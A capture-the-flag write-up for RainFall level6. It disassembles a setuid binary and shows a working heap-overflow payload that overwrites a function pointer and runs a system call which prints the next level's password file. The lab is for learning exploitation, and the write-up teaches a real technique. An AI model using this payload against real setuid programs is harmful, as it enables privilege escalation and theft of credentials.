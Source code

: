 level6@RainFall:~$ file level6 
level6: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xb1a5ce594393de0f273c64753cede6da01744479, not stripped


at start gdb show the stack trace
```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
(gdb) info f
No stack.
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
(gdb) 
```
## steps

```bash 
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   ```
allocat 64 byte and store the address in 0x1c(%esp) "esp + 28"

```bash

   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   ```
allocat 4 byte and store the address in 0x18(%esp) "esp + 24"

```bash
0x080484a5 <+41>:	mov    $0x8048468,%edx
```

load the address of m into edx "the 4 allocation"



so the program reserve a memory space of 64 byte, and then it coppy the input expected with strcoppy to it and calls the function `m` but the n function is not being called .

(gdb) disas m 
Dump of assembler code for function m:
   0x08048468 <+0>:	push   %ebp
   0x08048469 <+1>:	mov    %esp,%ebp
   0x0804846b <+3>:	sub    $0x18,%esp
   0x0804846e <+6>:	movl   $0x80485d1,(%esp)
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave  
   0x0804847b <+19>:	ret    
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret    
End of assembler dump.



let check the argument passed to the system call which is 0x80485b0 content:

```bash 
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
```

```bash
level6@RainFall:~$ gdb -q ./level6 
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
(gdb) 
```

after all we need to use the strcoppy vulnerability to get to the n function , 

now lets calculate the offset and overflow it to overide the m function with the n function.

```bash
level6@RainFall:~$ gdb -q ./level6 
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) break *0x080484ca  # a breakpoint after the strcpy
Breakpoint 1 at 0x80484ca
(gdb) run $(python -c 'print "A"*64 + "BBBB"') # overflow the buffer after filling the bufferallocated with A which is 414141 pattern and then add the 4 bytes fill pattern BBBB just to visualise 
Starting program: /home/user/level6/level6 $(python -c 'print "A"*64 + "BBBB"')

Breakpoint 1, 0x080484ca in main ()
(gdb) x/wx $esp+0x18 # check the value of the esp+0x18 which is the address of the m function stored
0xbffff6d8:	0x0804a050
(gdb)  x/wx 0x0804a050
0x804a050:	0x08048468 # here it is the address of the m function stored
(gdb) x/wx $esp+0x1c # check the value of the esp+0x1c which is the address of the buffer start 
0xbffff6dc:	0x0804a008
(gdb)  x/64wx 0x0804a008 # check the content of the buffer 
0x804a008:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x41414141	0x41414141	0x41414141	0x41414141 # here it is the buffer filled with A ends
0x804a048:	0x42424242	0x00000000	0x08048468	0x00000000 # here it is the BBBB pattern and the address of the m function stored with a 4 byes padding in between
0x804a058:	0x00000000	0x00020fa9	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0f8:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) 
```

so the offset is 64 + 8 = 72 bytes

- we will use the n function addres in little indian byte order which is 0x08048454 => 0x54 0x84 0x04 0x08


our payload is  
```bash 
$(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
```

here we go 
```bash 
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$ 
```